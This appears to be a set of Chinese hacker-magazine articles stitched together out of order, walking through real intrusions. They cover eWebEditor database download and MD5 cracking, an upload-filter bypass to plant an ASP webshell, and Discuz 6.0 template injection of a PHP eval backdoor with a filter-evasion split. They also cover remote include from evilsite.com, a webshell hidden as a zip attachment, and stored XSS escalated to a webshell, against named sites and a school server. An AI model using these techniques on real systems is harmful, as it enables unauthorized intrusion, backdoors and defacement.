不过这里看到的用户名和密码是经过 MD5 算法加密的，需要还原才能得到明文密码。打开 http://www.cmd5.com，在里面分别输入得到的用户名“4635a28888758e1b”和密码“2b286ea046c3432c”，点“md5 加密或解密”，还好我们运气不错能得到明文。看来我们的运气不错，得到的用户名和密码分别是 oncloud 和 03171981（图10）。


### 三、胜利之路

在思考再三后，我在 http://www.lytele.com/manage/editor/ 后面加上了“db/eWebEditor.mdb”，提交后出现了“文件下载”提示框，这是 eWebEditor 编辑器默认的数据库地址（图8）。

如果对方的密码非常复杂，在线网站查询不出来的话，就只有放在肉鸡上使用暴力破解程序慢慢破解了。

现在我们就可以回到 eWebEditor 的后台进行登录了。成功登录后，在“样式管理”里面随便选择一个样式，点击“拷贝”，然后点击“设置”（图11）。

接下来还想做什么就是自己的事了，擦 PP 走人或是进一步提权，不过就此收手比较好。我们只是安全爱好者而不是破坏者。


图11



图13


图14


图12

在允许上传类型的“其它类型”里加入“asasp”格式（因为系统会自动去掉一个 asp，所以剩下的还是 asp，如图12）。点击确定后，在刚才拷贝的样式预览里就可以上传“asp”格式的 WebShell 了（图13）。上传完成后，就可以成功访问我们的 WebShell 了（图14）。

> （文中涉及到的工具：注入 2.3 破解版、辅臣数据库浏览器 V1.0、cooldiyer 木马，已经收录在光盘中）

## 小编点评

原来我以为只有那些私人开发的公司企业网站会有这个问题，想不到电信也一样，真是出人意料。看来 eWebEditor 编辑器的漏洞真是害人不浅呀，没漏洞的网站都会整出漏洞了，大家切记以后在使用其它程序的时候一定要检测检测哦。



## ——事件篇

X 日，某位黑客 X 档案的作者“xx 度的冰”，又名“28度的x”，因一时冲动，用手中的 webshell 替换了学院网站的主页。

- X+1 日 13:00　黑页触怒了学院领导，下令彻查。
- X+1 日 14:00　由于使用的是宿舍的电脑，几小时后 IP 地址就被学校锁定，情况危急。
- X+1 日 16:00　几个人一起商议了下对策，毁掉了留在本地电脑上的一些证据。
- X+2 日　　　从 IP 地址查到对应的网口只是个时间问题而已，28 度的冰决定去“自首”。
- X+2 日　　　好在老师没有为难他，事件解决。
- X+3 日　　　登录了一下以前留下的 webshell，发现已经丢了。

至此，一场无聊的“黑客秀”事件正式宣告收场。在经过查日志、补漏洞、清 webshell 这一番折腾后，服务器是否就真的安全了呢？一天熄灯后闲来无事，我决定小小地检测一下老师们的工作成果。

## 一个人的战争

先简要介绍一下这台服务器的情况：系统使用的是 Ubuntu，开放了 FTP、SSH 服务，上面挂了多个网站。

- A、某教学用网站，使用的是一套基于 php+mysql 的国外系统，这套系统比较成熟，目前版本还没公开的漏洞。
- B、学院门户网站，一套自己写的 php 系统，未发现注入点。
- C、学校某门户论坛，由 Discuz 修改而来，经检测无常见漏洞。
- D、学院新闻站+论坛，这是上次渗透时的突破口。新闻站点也是自己写的 php，论坛使用的是 Discuz，当时是 5.0 版本。

不仅如此，论坛管理员的密码竟然是 6 位纯数字，不幸成为网站安全中最薄弱的一环。跑出 MD5 Hash 后可尝试登录后台，并通过模板插入方式拿到 webshell。

### 二、疑惑篇

如今那个论坛已经升级到了 Discuz 6.0。我试了一下上次漏洞利用的管理后门，虽然还能进后台，却发现已经不能直接按编辑语言包模板了（图1）。大家可对比一下 6.0 和 5.0 的不同（图2）。




真的没有办法了吗？这时我注意到了“Discuz 语言包”下面的“Discuz 模板”。虽然同样是模板修改，但下面的那些模板是不能直接插马的。于是决定仔细寻找报错原因，争取从这里突破。

随便找一个模板，比如 space.htm（图3），它所对应的页面是论坛根目录下的 space.php。尝试将一句话木马 `<?php eval($_POST["cmd"]);?>` 写入，打开 space.php 后报错（图4）。

显然，是某些标签不闭合引发问题，还是设计者有意过滤不得而知。不过当前最重要的是先搞清楚小马出了什么事。




模板中没有正常解析，可能是某些符号被过滤或替换。验证第一种猜测很简单，试试 php 标签能不能正常使用：

```php
<?php
    echo '123';
?>
```

添加到 space.htm 模板里，打开 space.php，正常运行了，123 被写在了页面上方，如图5。





由此可见 php 标签本身不存在问题，于是排除第一种可能。接下来任务是找出 php 小马被何种修改。修改应发生在模板解析时：一开始把代码写入模板时会报错，我们无法知道后续 php 代码具体变成了什么样子；想知道被改后的代码，就必须把代码完整显示出来，而不能去运行它。这里我们就需要借助一个 php 函数——`file_put_contents`。它的作用是将一段字符串写入特定文件。比如执行 `file_put_contents('1.txt','seer has arrived')`，就会在当前 php 的同一目录下生成一个 1.txt 文件，内容是“seer has arrived”。同理，我们只要把一句话木马 `<?php eval($_POST["cmd"]);?>` 以字符串的形式写入一个 txt 文件，然后查看文件内容，就可以知道代码被修改成什么样子了。

在模板中插入如下代码：`<?php file_put_contents('1.txt','<?php eval($_POST["cmd"]);?>');?>`，如图6。然后运行一下 space.php，让上述语句被执行一次。接着我们就可以在论坛根目录下找到一个 1.txt，里面的内容如：`<?php eval(<?=$_POST["cmd"]?>);?>`（修改前的内容为 `<?php eval($_POST["cmd"]);?>`），如图7。


程序对形似 php 变量的字符串进行了替换，在前后加上了“<?=...?>”，所以运行时就会出现错误了。后来我查了一些资料，这个应该是模板引擎在解析模板中的 php 代码时所做的替换，谁想到无意中坏了我们的好事。


### 三、解决篇

所有形似 `$` 后跟字母或者下划线的 php 变量都会被替换，而且是基于文本上的替换。从上面的例子可以看出，“$_POST["cmd"]”这个变量无论是放在待执行的 php 代码中，还是代码里的字符串中，都会经过同样的替换。

也许你已经想到了：还是使用 `file_put_contents` 这个函数。但不同的是，在模板中我们要把 webshell 先以字符串形式拆开，让它不存在任何文本上可见的变量，然后再把字符串组装起来，写入另外的 php 文件。

```php
<?php
file_put_contents('shell.php','<?php eval($_'.'POST["cmd"]);?>');
?>
```

这段代码的作用就是把 php 一句话木马在 `$` 前面拆开，让它在文本上不存在类似变量的形式，这样 webshell 代码就不会被改写了。然后插入模板并执行 space.php（如图8、图9）。




记住这段代码，以后 DZ6 后台拿 shell 就靠它了。直接在模板插马只是方法之一，我再给出另一种方法：人为制造一次“远程文件包含”得到 webshell。因为模板里并没有过滤 include/require 函数，我们只要把 webshell 代码保存成 txt，放到公网可访问空间上，然后在模板中加入：

```php
<?php
include('http://www.evilsite.com/shell.txt');
?>
```



- 1. 如果你 include 了一个大马，最好在较隐蔽时段操作。因为修改模板后所有打开该页面的人都会看到内容，容易暴露。
- 2. 能否进行远程文件包含取决于 php 配置中的 `allow_url_include` 是否为 On。

关于配置可在 php.ini 中找到（Windows 系统默认在 Windows 目录下，*nix 系统是在 /usr/local/lib/ 目录下）。在 php4.x 版本中默认是打开的，但在 php5.2.0 版本后默认是关闭的。在这种情况下，我们只要稍作变通，将“远程文件包含”变为“本地文件包含”，就可以突破这个限制了。首先将 webshell 的扩展名改为 .zip（不要改成图片格式，Discuz 会检查文件头），然后作为发帖附件传上去。在论坛前台你是无法看到附件 URL 的，但在后台的“帖子管理”=>“附件管理”中却可以看到；将 include 的参数换成附件相对路径就可以了，比如：

```php
<?php
include('attachments/month_0712/xxxxxx.zip');
?>
```

> **小编点评：**  
> PHP 就是好呀，这么多强大的函数组合。28 度的冰在本文中运用的方法非常值得大家学习和思考。有时候你用的方法出了错误，并不是因为程序员对那里做了什么过滤，而可能仅仅是因为程序上的某个设计导致的。所以多猜想、多测试，这样才会有结果。

## 新云漏洞迎新年

### ——新云网站内容管理系统 XSS 漏洞利用详解

旭方（高春雷）

### 一、前言

送走了 2007，我们即将迎来崭新的 2008！2007 年可谓是不平静的一年，期间各大程序相继曝出了严重漏洞，想必大家都趁机抓了不少肉鸡吧！那么在新的一年又会给我们带来哪些新惊喜呢？这不，新云就给我们送来了一份 XSS 漏洞的厚礼！

周末在宿舍闲着没事，于是就上网下载了一套“新云网站内容管理系统 v3.1.0.1231 正式版”进行研究。下载页面官方最后的更新时间显示的是 2007-12-31 16:32:02，由此看来新云的这次更新也是为了迎接新年的到来。

### 二、角落里的 XSS

新云系统曾经曝出过 conn.asp 能被下载的漏洞，致使在网上曾经掀起了一场“入侵新云热”。小菜们拿着手里的利用工具疯狂入侵使用新云系统的网站，着实让站长们虚惊了一场。相信经过那次事件后，新云官方已经修补了程序中比较明显的漏洞，像注入这种常见的漏洞应该不会出现了，那么还有哪些容易被忽略的地方呢？譬如 XSS。

首先将下载回来的“新云网站内容管理系统 v3.1.0.1231 正式版”打上官方最新的安全补丁，然后点击页面上方的“客户留言”，进入后点“发新留言”，在“留言内容”处我们看到可以利用 img 标签来插入图片链接，如图1。



格式为“[img]图片地址[/img]”，在我们发表留言后，留言显示到页面上时此处插入图片的代码会被转换为标准的 HTML 格式，也就是“”。这里的 img 是标签名，src 是 img 标签其中的一个属性，用来指定图片的地址信息。

玩过 XSS 的朋友都知道，img 标签的 src 属性是可以通过“javascript:脚本代码”来插入我们想要执行的代码的，也就是“”。如果新云没有对写入到 src 属性里的值进行过滤或者过滤不充分的话，不就可以执行我们的脚本代码了吗？

我们先来测试一下此处对特殊字符的过滤情况：在“留言内容”处点击“插入图像”，然后写入“XSS''::!—"<javascript jAVaScrIpT>=&#{()}\/”，填好其它项目后点“发表新留言”。这时会弹出对话框，提示“发表留言成功！请等管理审核后正式发布”。看来留言还需要管理员在后台审核后才能发表，那就去审核一下吧。

进入后台选择“其他管理”下的“留言管理”，然后点击刚才我们发表的留言后面的“审核”链接。审核成功后浏览该留言，查看源文件并搜索关键字“XSS”，如图2。


- 单引号 → `&#39;`
- 双引号 → `&quot;`
- `<` → `&lt;`
- 空格 → `&nbsp;`
- `>` → `&gt;`

我们输入的单引号被转化成了它的十进制“&#39;”，双引号、“<”、空格、“>”则被进行了 HtmlEncode 处理，而其它的特殊字符都是原样返回。这里除了“<”和“>”的变化外，其它的我们都不必去理会，因为它们现在的形式并不影响它们在代码中所起的作用，只是换一种方式进行表示罢了。

“`mdb">`”这样的方式来插入代码是不会造成任何影响的。我们来测试一下：留言时在“插入图像”处输入“`javascript:alert('XSS')`”，然后进入后台审核并查看，如图3。怎么样？弹出熟悉的对话框了吧！



### 三、XSS 求得 WebShell

看了以上的分析，想必很多菜鸟已经开始打瞌睡了吧！快点打起精神，下面就开始讲大家最关心的漏洞利用了。在这之前让我们回忆一下整个过程：

- 1. 我们在前台发表留言（普通用户身份）
- 2. 留言经审核后才能发表
- 3. 管理员登录后台审核并查看留言（管理员身份）

现在思路已经很清楚了：如果管理员在后台查看了我们的留言，那么在留言中插入的代码便会以管理员的身份被执行。如果我们在代码中指定那些只有管理员才有权限、而普通用户没有权限进行的操作，不就可以……想到什么了？没错，利用后台的数据库备份或恢复功能来获取 WebShell！

这里我选择的是新云后台的数据库恢复功能，因为新云对数据库的备份和恢复没有像 Dvbbs 8.1 那样变态的检查，所以我们可以将前台上传的 jpg 文件轻松地恢复成为 asp 文件！让我们来看一下数据库恢复具体的过程是怎样的。首先注册一个用户并登录，然后选择“发布信息管理”下的“发布软件”，如图4。

